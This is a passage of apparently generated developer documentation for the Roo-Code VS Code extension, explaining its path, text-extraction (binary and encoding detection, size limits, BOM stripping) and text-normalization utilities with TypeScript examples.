7.  Return `"@/" + relPath`.

**Sequence Diagram (`convertToMentionPath`):**



## Modification Guidance

Modifications might involve changing normalization rules, handling multi-root workspaces differently, or adding new path-related helpers.

1.  **Handling Multi-Root Workspaces More Explicitly:**
    *   **Modify `getWorkspacePath`:** Instead of just returning the first folder, it might need to accept an optional `targetUri` (like a document URI) and use `vscode.workspace.getWorkspaceFolder(targetUri)` to find the *specific* folder containing the target. Callers would need to provide the target URI.
    *   **Modify `relativePath`/`resolvePath`/`getFilePath`:** Ensure they consistently receive and use the correct `baseDir` (the specific workspace folder path relevant to the file being processed) instead of always defaulting to the first workspace folder. `getEditorContext` might need to return the relevant `workspaceFolderPath`.
    *   **Impact:** This makes path calculations more accurate in multi-root scenarios but requires callers to provide more context (the relevant document URI or folder path).

2.  **Adding URL Path Utilities:**
    *   If dealing frequently with URL paths, consider adding utilities specifically for them using `URL` objects or libraries designed for URL manipulation, separate from file system paths. `src/utils/url.ts` might be appropriate.

3.  **Changing `normalizePath` Behavior (e.g., Keep Backslashes on Windows):**
    *   **Modify:** Remove the `replace(/\\/g, "/")` from `normalizePath`.
    *   **Impact:** Internal consistency might be lost. Functions relying on POSIX paths (like mentions) would need adjustment or separate normalization. Comparisons in `arePathsEqual` would still work as `path.normalize` would handle basic OS differences. Generally, sticking to POSIX internally is often simpler.

**Best Practices:**

*   **Use `path` Module:** Leverage Node.js's `path` module for core operations.
*   **Consistent Normalization:** Apply `normalizePath` (to POSIX `/`) for internal consistency, especially for relative paths used in configuration, mentions, or cross-platform storage.
*   **Absolute vs. Relative Clarity:** Be explicit. Use `resolvePath` and `relativePath` for conversions relative to the workspace root. Pass absolute paths to file system utilities.
*   **Case Sensitivity (`arePathsEqual`):** Always use `arePathsEqual` for comparing paths obtained from different sources (user input, VS Code API, file system) to avoid case sensitivity issues.
*   **URIs vs. Strings:** Use `uri.fsPath` when needing a string for `fs` or `path` modules. Use `vscode.Uri.file()` or `vscode.Uri.parse()` when interacting with VS Code APIs requiring URIs.

**Potential Pitfalls:**

*   **Incorrect Workspace Root:** In multi-root workspaces, relying on `workspaceFolders[0]` can lead to incorrect relative paths if the target file is in a different root folder.
*   **Separator Mismatch:** Inconsistent use of `/` and `\` can cause comparison or resolution failures if not properly normalized.
*   **Case Sensitivity:** Direct string comparison (`===`) can fail on Windows if casing differs.
*   **URI Encoding/Decoding:** Special characters in paths can cause issues when converting between filesystem strings and URIs if not handled correctly by `vscode.Uri` methods.
*   **Paths Outside Workspace:** The definition of "relative path" becomes ambiguous. Utilities currently return normalized absolute paths or `undefined` in these cases, which callers must handle.

## Conclusion

The Path Utilities in `src/utils/path.ts` are essential for managing file path strings reliably within the Roo-Code extension. By providing centralized functions for normalization (to POSIX separators), resolving absolute paths, calculating workspace-relative paths, determining the workspace root, performing platform-aware comparisons (`arePathsEqual`), and converting paths for specific formats like mentions (`convertToMentionPath`), these utilities abstract away platform differences and ensure consistency. They are fundamental helpers used extensively by features dealing with file mentions, configuration, diff views, and general file system interactions.

With foundational utilities for filesystems and paths covered, we'll now look at utilities focused on extracting text content from files, handling potential complexities like encoding and binary detection: [Chapter 44: Text Extraction Utilities](44_text_extraction_utilities.md).
---
# Chapter 44: Text Extraction Utilities

Continuing from [Chapter 43: Path Utilities](43_path_utilities.md), where we focused on manipulating file path strings, this chapter delves into utilities designed to read and process the *content* of files, specifically focusing on extracting text while handling various encodings and potential issues: the **Text Extraction Utilities**.

## Motivation: Reliably Reading Text from Diverse Files

Roo-Code frequently needs to read the content of files to provide context to the AI ([Chapter 24: Mention Handling](24_mention_handling.md), `read_file` tool [Chapter 8: Tools](08_tools.md)) or for internal analysis ([Chapter 17: Tree-sitter Integration](17_tree_sitter_integration.md)). Simply using `fs.readFile(filePath, 'utf8')` isn't always sufficient:

1.  **Encoding:** Files might not be UTF-8 encoded. Using the wrong encoding leads to garbled text (mojibake). We need a way to detect or assume common encodings.
2.  **Binary Files:** Attempting to read large binary files (images, executables, archives) as text can consume huge amounts of memory, produce useless output for the AI, and potentially crash the extension. We need to detect and avoid reading binary files.
3.  **Large Files:** Reading extremely large text files entirely into memory can also cause performance issues or crashes. We need limits on the amount of text extracted.
4.  **BOM (Byte Order Mark):** Some UTF-8 files start with a BOM character, which can sometimes interfere with parsing or display if not removed.
5.  **Common Abstraction:** We need a consistent function to handle these issues when reading files for AI context.

The Text Extraction Utilities, primarily the `extractTextFromFile` function (located in `src/integrations/misc/extract-text.ts`), address these challenges by providing a robust way to read text content from files, incorporating binary detection, basic encoding handling, size limits, and BOM removal.

**Central Use Case:** The `getFileOrFolderContent` helper (used by `parseMentions`, [Chapter 24: Mention Handling](24_mention_handling.md)) needs to read the content of a file mentioned by the user, say `@/src/legacy_system/data.csv`, which might be encoded in `latin1`.

Without Utilities:
```typescript
// Conceptual code without specific utils
import * as fs from "fs/promises";

async function readNaive(absPath: string): Promise<string | null> {
    try {
        // Problem 1: Assumes UTF-8, will garble latin1
        // Problem 2: No binary check
        // Problem 3: No size limit
        const buffer = await fs.readFile(absPath);
        // Problem 4: Doesn't handle BOM
        return buffer.toString('utf8');
    } catch (error) {
        console.error("Read failed:", error);
        return null;
    }
}
```

With Utilities:
```typescript
// Conceptual code using extractTextFromFile
import { extractTextFromFile } from "../../integrations/misc/extract-text";

async function readRobust(absPath: string): Promise<string | null> {
    try {
        // Handles binary check, encoding detection (basic), size limit, BOM
        // Will likely detect 'latin1' or fallback successfully.
        const content = await extractTextFromFile(absPath);
        return content; // Returns decoded text, or null if binary/error
    } catch (error) {
        // extractTextFromFile likely handles internal errors, but caller might need this
        console.error("Extraction failed:", error);
        return null;
    }
}
```
The `extractTextFromFile` utility encapsulates multiple checks and conversions, providing cleaner and more reliable text content.

## Key Concepts

1.  **`extractTextFromFile(filePath)`:** The core utility function found in `src/integrations/misc/extract-text.ts`. It orchestrates the process of safely reading text content from an absolute file path.
2.  **Binary File Detection (`isbinaryfile`):** Uses the `isbinaryfile` npm library. This library reads the first few kilobytes of a file and uses heuristics (checking for null bytes and the frequency of non-printable characters) to determine if it's likely a binary file. `extractTextFromFile` calls this first and returns `null` if a binary file is detected, preventing attempts to read large non-textual data.
3.  **Encoding Detection/Handling (`chardet`, Fallback):**
    *   Attempts to detect the file's encoding using the `chardet` npm library. `chardet` analyzes byte patterns to guess the encoding (e.g., UTF-8, UTF-16LE, ISO-8859-1/latin1).
    *   Reads the file content into a `Buffer`.
    *   Runs `chardet.detect(buffer)`.
    *   If detection is successful and the confidence is above a threshold (`ENCODING_CONFIDENCE_THRESHOLD`), it uses the detected encoding name (e.g., `'ISO-8859-1'`).
    *   Otherwise, it defaults to `'utf-8'`.
    *   Uses the built-in `TextDecoder` API to decode the buffer using the determined encoding. Includes fallback logic to try UTF-8 if the initial decoding fails.
4.  **Size Limiting (`MAX_FILE_SIZE_BYTES`):** Reads the file buffer and checks its `length`. If it exceeds a predefined limit (e.g., `500_000` bytes), it logs a warning, takes only the initial slice of the buffer (`buffer.slice(0, MAX_FILE_SIZE_BYTES)`), performs encoding detection *on the slice*, decodes the slice, and returns the truncated content.
5.  **BOM Removal (`strip-bom`):** After successfully decoding the buffer (full or truncated) into a string, it uses the `strip-bom` npm library to remove the leading Byte Order Mark character (U+FEFF) if present.
6.  **Error Handling:** Includes `try...catch` blocks around file system operations (`fs.readFile`) and library calls (`isBinaryFile`, `chardet.detect`, `TextDecoder.decode`) to handle errors gracefully (e.g., file not found, permission denied, decoding errors), logging them and typically returning `null`.

## Using the Text Extraction Utilities

`extractTextFromFile` is the primary function used whenever file *content* needs to be read for processing or display as text, especially when providing context to the LLM or parsing code.

**Example 1: `getFileOrFolderContent` (Used by Mentions)**

```typescript
// --- File: src/core/mentions/index.ts ---
import { extractTextFromFile } from "../../integrations/misc/extract-text"; // Import the utility
import * as path from "path";
import * as fs from "fs/promises";
import { isBinaryFile } from "isbinaryfile"; // Also needed here for initial check

// ... (other imports) ...

/** Fetches content for a file or lists content for a folder */
async function getFileOrFolderContent(mentionPath: string, cwd: string): Promise<string> {
	const absPath = path.resolve(cwd, mentionPath);
	try {
		const stats = await fs.stat(absPath);
		if (stats.isFile()) {
            // Explicit binary check *before* calling extract (optional but belt-and-suspenders)
            const binary = await isBinaryFile(absPath).catch(() => false);
            if (binary) return `(Binary file '${mentionPath}' not displayed)`;

			// *** Use extractTextFromFile for robust text reading ***
			const content = await extractTextFromFile(absPath);
            if (content === null) {
                // Handle cases where extraction failed (logged internally)
                return `(Could not read content of '${mentionPath}')`;
            }
            // Optional: Further truncation or formatting if needed
            // const truncatedContent = truncateContent(content, MAX_CONTEXT_LENGTH);
			return content;
		} else if (stats.isDirectory()) {
            // ... (logic for listing directory) ...
		} else {
			return `(Path '${mentionPath}' is not a file or directory)`;
		}
	} catch (error) {
		// Handle file/dir not found, permission errors etc. from fs.stat
		throw new Error(`Failed to access path "${mentionPath}": ${error.message}`);
	}
}
```
*Explanation:* Instead of `fs.readFile().toString()`, this helper calls `extractTextFromFile(absPath)`. It checks the return value for `null` to handle binary files or other extraction failures, returning an informative placeholder.

**Example 2: `readFileTool`**

```typescript
// --- File: src/core/tools/readFileTool.ts ---
import { extractTextFromFile } from "../../integrations/misc/extract-text"; // Import the utility
import { formatResponse } from "../prompts/responses";
// ... (other imports: Cline, ToolUse, callbacks, path, fs) ...

export async function readFileTool(...) {
    const relPath: string | undefined = block.params.path;
    // ... (validate access using rooIgnoreController) ...
    // ... (askApproval) ...

    const absolutePath = path.resolve(cline.cwd, relPath);
    let toolResultXml: string;

    try {
        // *** Use extractTextFromFile ***
        const fileContent = await extractTextFromFile(absolutePath);

        if (fileContent === null) {
            // Handle binary file or read error (error already logged by utility)
            toolResultXml = formatResponse.toolError(`Cannot read file content (binary or error): ${relPath}`);
        } else {
            // Successfully read text content
            // Format for AI, include line count
            const lineCount = fileContent.split('\n').length;
            toolResultXml = `<file><path>${relPath.toPosix()}</path>\n<content lines="1-${lineCount}">\n${fileContent}\n</content>\n</file>`;
        }
    } catch (error) {
        // Handle errors thrown by path resolution or preceding steps
        toolResultXml = formatResponse.toolError(`Failed to process read file request for ${relPath}: ${error.message}`);
    }

    pushToolResult(toolResultXml); // Push formatted content or error
}
```
*Explanation:* The `readFileTool` uses `extractTextFromFile`. It checks for `null` and formats an appropriate error message if extraction failed. If text content is returned, it's formatted within `<file>` tags for the AI.

**Example 3: Tree-sitter Integration**

```typescript
// --- File: src/services/tree-sitter/index.ts ---
import { extractTextFromFile } from "../../integrations/misc/extract-text"; // Import utility
// ... (other imports) ...

async function parseFile(
	filePath: string,
	languageParsers: LanguageParser,
	rooIgnoreController?: RooIgnoreController,
): Promise<string | null> {
    // ... (ignore check) ...

    // *** Use extractTextFromFile instead of fs.readFile ***
	const fileContent = await extractTextFromFile(filePath);
    if (fileContent === null) {
        // Handle binary or unreadable file
        logger.warn(`Skipping Tree-sitter parsing for unreadable/binary file: ${filePath}`, { ctx: "TreeSitter" });
        return null;
    }

    // ... (get langParser, parser.parse(fileContent), query.captures, processCaptures) ...
}
```
*Explanation:* The Tree-sitter `parseFile` function uses `extractTextFromFile` to get the necessary text content, ensuring it doesn't attempt to parse binary files or handle complex encoding issues directly.

## Code Walkthrough

### Text Extraction Function (`src/integrations/misc/extract-text.ts`)

```typescript
// --- File: src/integrations/misc/extract-text.ts ---
import * as fs from "fs/promises";
import * as path from "path";
import { isBinaryFile } from "isbinaryfile"; // Library for binary detection
import { detect } from "chardet"; // Library for encoding detection
import stripBom from "strip-bom"; // Library for removing BOM
import { logger } from "../../utils/logging"; // Standard logger

// Configuration constants
const MAX_FILE_SIZE_BYTES = 500_000; // Limit file size (e.g., 500KB)
const ENCODING_CONFIDENCE_THRESHOLD = 0.5; // Minimum confidence for chardet result
const CHARDET_BUFFER_SIZE = 64 * 1024; // Bytes to read for chardet (64KB)

/**
 * Extracts text content from a file, handling binary files, basic encoding detection,
 * size limits, and BOM removal.
 *
 * @param filePath Absolute path to the file.
 * @returns The text content as a string, or null if the file is binary or cannot be read/decoded.
 */
export async function extractTextFromFile(filePath: string): Promise<string | null> {
	let fileHandle: fs.FileHandle | undefined;
	try {
		// 1. Open file handle for efficient reading
		fileHandle = await fs.open(filePath, 'r');
		const stats = await fileHandle.stat();

		// 2. Check size limit
		if (stats.size > MAX_FILE_SIZE_BYTES) {
			logger.warn(`File exceeds size limit (${MAX_FILE_SIZE_BYTES} bytes), reading truncated content: ${filePath}`, { ctx: "extractText" });
			// Read only the beginning part for truncation
			const truncatedBuffer = Buffer.alloc(MAX_FILE_SIZE_BYTES);
			await fileHandle.read(truncatedBuffer, 0, MAX_FILE_SIZE_BYTES, 0);
			// Detect encoding on the truncated buffer
			const encoding = detectEncoding(truncatedBuffer.slice(0, CHARDET_BUFFER_SIZE)) ?? 'utf-8';
			// Decode, strip BOM, and return truncated content (or null on decode failure)
			return decodeBuffer(truncatedBuffer, encoding, filePath, true);
		}

        // If within size limit, read entire file for accurate encoding detection
		const buffer = Buffer.alloc(stats.size);
        await fileHandle.read(buffer, 0, stats.size, 0);

        // 3. Check if binary using isbinaryfile library
        // Check buffer content directly instead of re-reading file path
        const fileIsBinary = await isBinaryFile(buffer, stats.size);
		if (fileIsBinary) {
			logger.debug(`Detected binary file based on content: ${filePath}`, { ctx: "extractText" });
			return null; // Indicate binary file
		}

		// 4. Detect encoding using chardet
		const encoding = detectEncoding(buffer.slice(0, CHARDET_BUFFER_SIZE)) ?? 'utf-8';
		logger.debug(`Using encoding ${encoding} for ${filePath}`, { ctx: "extractText" });

		// 5. Decode buffer using detected/default encoding and strip BOM
		return decodeBuffer(buffer, encoding, filePath, false);

	} catch (error) {
        // Handle file system errors (ENOENT, EACCES, etc.) from open/stat/read
		logger.error(`Failed to extract text from file ${filePath}`, { error, ctx: "extractText" });
		return null; // Return null on any error during the process
	} finally {
        // Ensure file handle is closed
        await fileHandle?.close();
    }
}

/** Detects encoding using chardet with a confidence threshold */
function detectEncoding(buffer: Buffer): string | undefined {
    try {
	    const detected = detect(buffer);
        logger.debug(`Chardet result: ${detected?.name}, Confidence: ${detected?.confidence}`, { ctx: "extractText.detectEncoding" });
	    if (detected && detected.confidence > ENCODING_CONFIDENCE_THRESHOLD) {
		    return detected.name; // Return detected encoding name (e.g., 'UTF-8', 'ISO-8859-1')
	    }
    } catch (error) {
        logger.warn(`Chardet detection failed`, { error, ctx: "extractText.detectEncoding" });
    }
	return undefined; // Indicate detection failed or confidence too low
}

/** Decodes a buffer using TextDecoder, with fallback to UTF-8 and BOM stripping */
function decodeBuffer(buffer: Buffer, encoding: string, filePath: string, isTruncated: boolean): string | null {
    try {
        // Decode using detected/default encoding. fatal: true throws on invalid sequences.
        const decodedContent = new TextDecoder(encoding, { fatal: true }).decode(buffer);
        // Remove BOM
        return stripBom(decodedContent);
    } catch (decodeError) {
        const logPrefix = isTruncated ? "(truncated)" : "";
        logger.warn(`Failed to decode ${logPrefix} file ${filePath} with encoding ${encoding}. Falling back to UTF-8.`, { error: decodeError, ctx: "extractText.decode" });
        // Fallback: Try decoding as UTF-8 if the initial attempt failed
        if (encoding.toUpperCase() !== 'UTF-8') { // Avoid trying UTF-8 twice if it was the default
            try {
                const fallbackContent = new TextDecoder('utf-8', { fatal: true }).decode(buffer);
                return stripBom(fallbackContent); // Strip BOM from fallback too
            } catch (utf8Error) {
                logger.error(`Failed fallback UTF-8 decoding ${logPrefix} for ${filePath}`, { error: utf8Error, ctx: "extractText.decode" });
                return null; // Failed to decode even with fallback
            }
        } else {
            return null; // Already tried UTF-8 and it failed
        }
    }
}
```

**Explanation:**

1.  **Constants:** Defines `MAX_FILE_SIZE_BYTES`, `ENCODING_CONFIDENCE_THRESHOLD`, and `CHARDET_BUFFER_SIZE`.
2.  **`extractTextFromFile`:**
    *   Uses `fs.open` to get a file handle for efficient reading and stat calls.
    *   Uses `fileHandle.stat()` to get file size.
    *   **Size Check:** Compares `stats.size` to `MAX_FILE_SIZE_BYTES`.
        *   **If Exceeds:** Reads only `MAX_FILE_SIZE_BYTES` into `truncatedBuffer` using `fileHandle.read()`. Calls `detectEncoding` on a slice of this buffer. Calls `decodeBuffer` with the truncated buffer and determined encoding. Returns the result.
    *   **If Within Limit:** Reads the entire file into `buffer` using `fileHandle.read()`.
    *   **Binary Check:** Calls `isBinaryFile(buffer, stats.size)` using the buffer content. Returns `null` if binary.
    *   **Encoding Detection:** Calls `detectEncoding` on a slice of the buffer. Defaults to `'utf-8'` if detection fails or confidence is low.
    *   **Decoding:** Calls `decodeBuffer` with the full buffer and determined encoding.
    *   **Error Handling:** Top-level `try...catch` handles errors from `fs.open`, `stat`, or `read`.
    *   **Cleanup:** `finally` block ensures `fileHandle.close()` is called.
3.  **`detectEncoding`:** Wraps `chardet.detect(buffer)`. Returns the encoding name if confidence is above the threshold, otherwise `undefined`. Includes error handling for `chardet`.
4.  **`decodeBuffer`:**
    *   Uses `TextDecoder(encoding, { fatal: true }).decode(buffer)`.
    *   If decoding fails, logs a warning and attempts a fallback to UTF-8 (if the original encoding wasn't already UTF-8).
    *   If initial or fallback decoding succeeds, calls `stripBom` before returning the string.
    *   Returns `null` if all decoding attempts fail.

## Internal Implementation

The utility orchestrates calls to external libraries (`isbinaryfile`, `chardet`, `strip-bom`) and Node.js `fs/promises` and `TextDecoder`.

**Step-by-Step (`extractTextFromFile` - Within Size Limit):**

1.  Input: `filePath`.
2.  `await fs.open(filePath, 'r')` -> `fileHandle`. Handle errors -> return `null`.
3.  `await fileHandle.stat()` -> `stats`. Handle errors -> return `null`.
4.  Check `stats.size > MAX_FILE_SIZE_BYTES`. Assume false.
5.  Allocate `buffer = Buffer.alloc(stats.size)`.
6.  `await fileHandle.read(buffer, 0, stats.size, 0)`. Handle errors -> return `null`.
7.  `await isBinaryFile(buffer, stats.size)`. If true, log, `await fileHandle.close()`, return `null`.
8.  Call `detectEncoding(buffer.slice(0, CHARDET_BUFFER_SIZE))`. Gets detected encoding or `undefined`.
9.  `encoding = detectedEncoding ?? 'utf-8'`.
10. Call `decodeBuffer(buffer, encoding, filePath, false)`.
    *   `try { new TextDecoder(encoding, { fatal: true }).decode(buffer) }` -> `textContent`.
    *   If success: `return stripBom(textContent)`.
    *   If error: Log. If `encoding !== 'utf-8'`, try decoding with UTF-8. If success, `return stripBom(fallbackContent)`. If UTF-8 fails or was already tried, return `null`.
11. `await fileHandle.close()`.
12. Return the result from `decodeBuffer` (string or `null`).

**Sequence Diagram (Within Size Limit):**



## Modification Guidance

Modifications typically involve adjusting limits, improving encoding detection, adding support for more formats, or refining the binary check.

1.  **Adjusting Size Limit or Chardet Buffer:**
    *   **Locate:** Change `MAX_FILE_SIZE_BYTES` or `CHARDET_BUFFER_SIZE` constants in `src/integrations/misc/extract-text.ts`.
    *   **Considerations:** Larger `MAX_FILE_SIZE_BYTES` uses more memory but provides more context. Larger `CHARDET_BUFFER_SIZE` might improve detection accuracy for some encodings but uses more memory during detection.

2.  **Improving Encoding Handling:**
    *   **More Fallbacks:** In `decodeBuffer`, add more fallback encodings to try after UTF-8 (e.g., 'latin1', 'windows-1252') if UTF-8 also fails.
    *   **User Setting:** Allow users to specify a default encoding in settings if detection/UTF-8 fails. `extractTextFromFile` would need access to settings via `ContextProxy`.
    *   **Replace `chardet`:** Use a different library if `chardet` proves unreliable.

3.  **Refining Binary Detection:**
    *   **`isbinaryfile` Options:** Check if the `isbinaryfile` library accepts options to tune its sensitivity (e.g., threshold for non-text characters).
    *   **Add Extension Check:** Add a blacklist/whitelist of file extensions known to be binary (e.g., `.png`, `.jpg`, `.exe`, `.zip`) or text. Check the extension *before* calling `isBinaryFile` as a quick filter.
        ```typescript
        const KNOWN_BINARY_EXTS = ['.png', '.jpg', '.jpeg', '.gif', '.zip', '.exe', '.dll', '.pdf', '.docx'];
        const ext = path.extname(filePath).toLowerCase();
        if (KNOWN_BINARY_EXTS.includes(ext)) {
            logger.debug(`Skipping known binary extension: ${filePath}`);
            return null;
        }
        // ... proceed with isBinaryFile check ...
        ```

4.  **Adding PDF/DOCX Extraction:** (As described in Chapter 42, but integrate here)
    *   **Create Helpers:** Create `extractTextFromPdf`, `extractTextFromDocx` using relevant libraries.
    *   **Modify `extractTextFromFile`:** Add checks for `.pdf` / `.docx` extensions at the beginning. If matched, call the specific extraction helper instead of the standard binary/text logic. Return its result.

**Best Practices:**

*   **Binary Check First:** Essential for performance and stability.
*   **Size Limits:** Protect against excessive memory usage.
*   **Use Buffers:** Read into buffers for encoding detection and efficient slicing.
*   **Use `TextDecoder`:** Leverage the standard API for robust decoding.
*   **Fallback Encoding:** Always have a fallback (usually UTF-8).
*   **Error Handling:** Gracefully handle FS errors and decoding errors, returning `null` to indicate failure.
*   **Logging:** Log decisions (binary, encoding used, truncation) and errors to aid debugging.

**Potential Pitfalls:**

*   **Incorrect Binary/Encoding Detection:** Heuristics aren't perfect. Some text files might be flagged as binary, or the wrong encoding might be used, leading to `null` or garbled text.
*   **Size Limit Truncation:** Truncating large files means the AI only sees the beginning, potentially missing crucial information. The warning log is important.
*   **Performance on Large Files:** Reading the entire file into a buffer first (even if within limits) can be slow for multi-megabyte files. The optimization mentioned (reading only up to `MAX_FILE_SIZE_BYTES` initially) would improve this.
*   **Unsupported Encodings:** `TextDecoder` and `chardet` support many but not all possible encodings. Obscure encodings might fail decoding.
*   **Library Issues:** Bugs or limitations in `isbinaryfile` or `chardet`.

## Conclusion

The Text Extraction Utilities, centered around `extractTextFromFile`, provide a critical function for safely and reliably reading text content from files within the user's workspace. By incorporating binary detection, encoding handling, size limiting, and BOM removal, this utility shields the rest of the Roo-Code application (including the AI agent) from dealing with potentially problematic file content. It ensures that context provided from files is generally usable text, preventing errors and improving the stability of features that rely on reading file content.

Following text extraction and normalization, we now look at how Roo-Code renders richly formatted text, specifically Markdown, in its user interface: [Chapter 46: Markdown Rendering](46_markdown_rendering.md).
---
# Chapter 45: Text Normalization Utilities

Continuing from [Chapter 44: Text Extraction Utilities](44_text_extraction_utilities.md), where we focused on reliably reading text content from files, this chapter examines utilities designed to clean and standardize text strings for consistent processing, comparison, or display: the **Text Normalization Utilities**.

## Motivation: Ensuring Consistency and Comparability of Text

Text data within Roo-Code comes from various sources: user input, file content read by utilities like `extractTextFromFile`, AI responses, diagnostic messages, terminal output, etc. This text can have inconsistencies that hinder processing or comparison:

*   **Whitespace:** Extra spaces, tabs, leading/trailing whitespace.
*   **Line Endings:** Different operating systems use different line endings (CRLF `\r\n` on Windows, LF `\n` on Linux/macOS). Inconsistent line endings can break diffs ([Chapter 20: DiffViewProvider](20_diffviewprovider.md)), comparisons, line counts, and text processing logic.
*   **Case Sensitivity:** Comparisons might need to be case-insensitive.
*   **Special Characters:** Non-printable characters or specific control codes (which `extractTextFromFile` might attempt to remove, but some could remain) might need further handling.

Manually handling these variations everywhere text is processed is error-prone and repetitive. The Text Normalization Utilities provide a central set of functions to apply consistent cleaning and standardization rules to strings, making subsequent processing, comparison, and display more reliable.

**Central Use Case:** The [Chapter 20: DiffViewProvider](20_diffviewprovider.md) needs to compare the final content saved by the user (`editedContent`) with the content originally proposed by the AI (`newContent`) to detect if the user made any edits (`userEdits`). A simple string comparison (`editedContent === newContent`) might fail due to differences in line endings (e.g., user's editor saved with CRLF, AI generated with LF) even if the actual text content is identical.

Using Normalization:
1.  Before comparison, `DiffViewProvider.saveChanges` calls `normalizeLineEndings(editedContent)` and `normalizeLineEndings(newContent)`.
2.  The `normalizeLineEndings` utility converts all CRLF (`\r\n`) and CR (`\r`) line endings in both strings to LF (`\n`).
3.  The comparison `normalizedEditedContent === normalizedNewContent` now accurately reflects whether the meaningful content differs, ignoring line ending variations.
4.  If they still differ, a diff patch representing `userEdits` is generated using the *normalized* strings.

## Key Concepts

1.  **Standardization Goal:** To transform text strings into a canonical format, primarily focusing on whitespace and line endings, for reliable processing and comparison.
2.  **`normalizeLineEndings(text)`:** The most critical function in this category. Converts all line endings (CRLF `\r\n`, CR `\r`) in a string to a single LF (`\n`). Crucial for comparing text from different sources or platforms, generating diffs, and ensuring consistent line counting. Uses simple, efficient string replacement (`replace(/\r\n/g, '\n').replace(/\r/g, '\n')`).
3.  **Whitespace Trimming:** Standard `text.trim()` removes leading/trailing whitespace. Utilities might combine this with other normalizations (e.g., `trimAndNormalize`).
4.  **Non-Printable Character Removal (`stripNonPrintableChars` - Conceptual):** While [Chapter 44: Text Extraction Utilities](44_text_extraction_utilities.md) aims to produce clean text, further stripping of remaining non-printable ASCII characters (excluding common whitespace) might sometimes be needed for specific processing or display contexts.
5.  **Case Normalization:** Using standard `text.toLowerCase()` or `text.toUpperCase()` for case-insensitive comparisons. Typically applied *after* other normalizations if needed for a specific comparison task.
6.  **HTML Entity Unescaping (`unescapeHtmlEntities`):** Sometimes AI responses might contain HTML entities (e.g., `&lt;` for `<`, `&amp;` for `&`). A utility is needed to convert these back to their original characters, especially before parsing content that might contain XML-like tags (e.g., tool usage).
7.  **Location (`src/utils/text-normalization.ts` or `src/utils/text.ts`):** These utility functions are typically grouped in a common text utilities file.

## Using the Text Normalization Utilities

These are simple functions imported and used where text consistency is required.

**Example 1: Line Ending Normalization (DiffViewProvider)**

```typescript
// --- File: src/integrations/editor/DiffViewProvider.ts ---
import { normalizeLineEndings } from "../../utils/text-normalization"; // Assuming location
import * as diff from "diff"; // Library for calculating diffs
import { formatResponse } from "../../core/prompts/responses";
// ...

// ... inside saveChanges ...
    const editedContent = updatedDocument.getText();

    // Compare final content with AI's proposal to detect user edits
    // Normalize EOL before comparison!
    const normalizedEditedContent = normalizeLineEndings(editedContent);
    const normalizedNewContent = normalizeLineEndings(this.newContent ?? "");

    let userEdits: string | undefined;
    if (normalizedEditedContent !== normalizedNewContent) {
        // Generate diff patch using normalized strings
        userEdits = formatResponse.createPrettyPatch(
            this.relPath!.toPosix(), // Ensure path uses POSIX separators too
            normalizedNewContent, // Use normalized version
            normalizedEditedContent, // Use normalized version
        );
    }
    // ... return results ...
```
*Explanation:* `normalizeLineEndings` is applied to both the user's final content and the AI's proposed content before they are compared or used to generate a diff patch via `createPrettyPatch` (which likely also relies on normalized line endings).

**Example 2: Unescaping HTML Entities (Command Validation / Tool Input)**

```typescript
// --- File: src/core/tools/executeCommandTool.ts ---
import { unescapeHtmlEntities } from "../../utils/text-normalization"; // Import the utility
// ...

export async function executeCommandTool(...) {
    let command: string | undefined = block.params.command;
    // ... (handle partial, missing command) ...

    if (!command) { /* ... */ return; }

    // *** Unescape HTML entities before validation or execution ***
    command = unescapeHtmlEntities(command);

    // --- Validate Command ---
    const validationError = await CommandValidator.validate(command, contextProxy);
    // ... handle validation error ...

    // --- Ask Approval ---
    const didApprove = await askApproval("command", command); // Pass unescaped command
    // ...

    // --- Execute Command ---
    const [userRejected, result] = await executeCommand(cline, command, customCwd); // Pass unescaped command
    // ...
}
```
*Explanation:* The command string received from the AI (`block.params.command`) might contain HTML entities (e.g., if the AI included it within description text). `unescapeHtmlEntities` converts `&lt;`, `&gt;`, `&amp;`, etc., back to `<`, `>`, `&` before the command is validated or executed, ensuring the correct characters are processed.

**Example 3: Case-Insensitive Comparison**

```typescript
// --- Conceptual code ---
import { normalizeLineEndings } from "../utils/text-normalization";

function isKeywordPresent(textBlock: string, keyword: string): boolean {
    // Normalize case for comparison
    const normalizedBlock = textBlock.toLowerCase();
    const normalizedKeyword = keyword.toLowerCase();
    return normalizedBlock.includes(normalizedKeyword);
}
```
*Explanation:* For case-insensitive searching or checking, standard `.toLowerCase()` is used on both strings before comparison. `normalizeLineEndings` might be applied first if the comparison needs to span lines or be EOL-agnostic.

## Code Walkthrough

### Text Normalization Utilities (`src/utils/text-normalization.ts`)

```typescript
// --- File: src/utils/text-normalization.ts ---

/**
 * Normalizes line endings in a string to use LF ('\n').
 * Replaces CRLF ('\r\n') and CR ('\r') with LF ('\n').
 * Handles null or undefined input by returning an empty string.
 *
 * @param text The input string.
 * @returns The string with normalized line endings.
 */
export function normalizeLineEndings(text: string | undefined | null): string {
	if (!text) {
		return "";
	}
	// Replace CRLF first, then any remaining CR
	return text.replace(/\r\n/g, '\n').replace(/\r/g, '\n');
}

/**
 * Removes leading and trailing whitespace and normalizes line endings.
 * Handles null or undefined input.
 *
 * @param text The input string.
 * @returns The trimmed and normalized string.
 */
export function trimAndNormalize(text: string | undefined | null): string {
    if (!text) {
        return "";
    }
    // Trim first, then normalize line endings
    return normalizeLineEndings(text.trim());
}

/**
 * Unescapes common HTML entities like &lt;, &gt;, &amp;, &quot;, &apos;.
 * Handles null or undefined input.
 *
 * @param text The input string potentially containing HTML entities.
 * @returns The string with common HTML entities converted back to characters.
 */
export function unescapeHtmlEntities(text: string | undefined | null): string {
	if (!text) {
		return "";
	}
	// Use replace with multiple regex for common entities
	return text
		.replace(/&lt;/g, '<')
		.replace(/&gt;/g, '>')
		// Replace &amp; last to avoid double-escaping if original text had "&amp;lt;"
		.replace(/&quot;/g, '"')
		.replace(/&apos;/g, "'")
		.replace(/&amp;/g, '&');
}


/**
 * (Conceptual) Removes non-printable ASCII characters except for common whitespace.
 * Keeps space, tab, LF, CR. Removes characters in range 0-31 (excluding 9, 10, 13) and 127 (DEL).
 * Handles null or undefined input.
 *
 * @param text The input string.
 * @returns The string with non-printable characters removed.
 */
export function stripNonPrintableChars(text: string | undefined | null): string {
    if (!text) {
        return "";
    }
    // Regex matches characters from \x00-\x08, \x0B-\x0C, \x0E-\x1F, and \x7F
    // Replace matched characters with an empty string
    return text.replace(/[\x00-\x08\x0B\x0C\x0E-\x1F\x7F]/g, '');
}

// Example of a function combining multiple normalizations
/**
 * Applies trimming, line ending normalization, and non-printable character stripping.
 * @param text The input string.
 * @returns The cleaned and normalized string.
 */
